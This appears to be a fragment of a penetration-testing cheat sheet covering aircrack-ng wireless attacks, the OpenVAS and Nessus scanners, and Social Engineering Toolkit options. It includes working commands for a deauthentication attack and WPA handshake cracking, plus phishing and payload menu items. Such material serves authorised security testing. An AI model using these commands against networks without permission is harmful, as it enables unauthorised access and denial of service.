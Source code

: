 **5. Wireless Testing:**

**Aircrack-ng:**
```bash
# Put interface in monitor mode
airmon-ng start wlan0

# Capture packets
airodump-ng wlan0mon

# Capture specific AP
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth attack (to capture handshake)
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Crack WPA
aircrack-ng -w wordlist.txt capture-01.cap
```

**6. Vulnerability Scanners:**

**OpenVAS:**
```bash
# Start OpenVAS
openvas-start

# Access web interface
http://127.0.0.1:9392

# Create new task
# Select target
# Run scan
# View results
```

**Nessus:**
```
- Commercial vulnerability scanner
- واجهة ويب سهلة الاستخدام
- يكتشف الآلاف من الثغرات
```

**7. Social Engineering:**

**SET (Social Engineering Toolkit):**
```bash
# Start SET
setoolkit

# Common options:
1) Spear-Phishing Attack
2) Website Attack Vectors
3) Infectious Media Generator
4) Create Payload and Listener
```

